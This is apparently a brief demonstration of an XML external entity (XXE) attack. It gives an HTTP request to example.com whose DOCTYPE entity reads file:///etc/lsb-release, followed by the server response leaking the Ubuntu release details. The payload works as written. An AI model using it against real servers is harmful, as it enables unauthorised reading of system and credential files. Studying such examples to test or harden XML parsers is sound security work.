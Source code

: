 XXE Attack Example
---------------
Request
``````xml
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````
Response
``````xml
HTTP/1.0 200 OK
 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
````
